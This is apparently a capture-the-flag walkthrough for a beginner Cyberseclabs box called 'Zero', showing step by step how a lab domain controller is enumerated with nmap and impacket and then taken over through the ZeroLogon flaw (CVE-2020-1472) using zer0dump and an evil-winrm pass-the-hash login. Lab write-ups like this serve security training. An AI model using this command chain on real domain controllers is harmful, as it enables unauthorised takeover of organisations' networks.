

In this walkthrough, we'll go over a beginner level box called "Zero". Zero is based on a Windows [CVE-2020-1472](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1472) on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).


Let's start the scanning process with nmap:
```bash
sudo nmap -A -T4 -p- 172.31.1.29 -oX zero-full-scan.xml
```


Now, we know that this is a domain controller. Let's run a full vuln scan to see if we can catch anything:
```bash
sudo nmap --script vuln 172.31.1.29 -oX zero-vuln-scan.xml
```


Unfortunately, this didn't reveal any vulnerabilities that we can use. Since we know that this machine is a Domain Controller, we can try ldap and kerberos enumeration:
Let's start with ldap enumeration:
```bash
sudo nmap -n -sV --script "ldap* and not brute" -p 389 172.31.1.29
```


I didn't find any users or service accounts so let's enumerate kerberos:
```bash
sudo nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm=zero.csl" 172.31.1.29
```


We only find ```administratior@zero.csl```. Can this reveal anything?
Let's use impacket/GetNPUsers.py
```bash
python GetNPUsers.py -dc-ip 172.31.1.29 zero.csl/administrator -no-pass
```


It looks like we are running out of options. We can enumerate each service again, but since this is an Active Directory box we can look at lates CVEs which are affecting Domain Controllers and Windows Servers.
One of them is CVE-2020-1472. We can test if the machine is vulnerable to ZeroLogon.
Let's download two github libraries:

1 - https://github.com/SecuraBV/CVE-2020-1472.git --> we will be using zerologon_tester.py to test if the machine is vulnerable.
```bash
sudo ./zerologon_tester.py ZERO-DC 172.31.1.29
```


As we can see the machine is vulnerable to ZeroLogon.

2 - https://github.com/bb00/zer0dump.git --> we will be using zer0dump.py to launch our attack and reset the administrator password on the Domain Controller to blank space/null.
```bash
sudo ./opt/zer0dump/zer0dump.py 172.31.1.29
```


As we can see "Administrator" password has been changed. Now, by using NT hash we can log into the machine. Another important thing here is that port 5985 is open, this means that we can use evil-winrm which is another tool to log in and execute powershell scripts:
```bash
evil-winrm -u Administrator -H 36242e2cb0b26d16fafd267f39ccf990 -i 172.31.1.29
```


As we can see we are an administrator on the DC and can grab both access and system flags:


I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
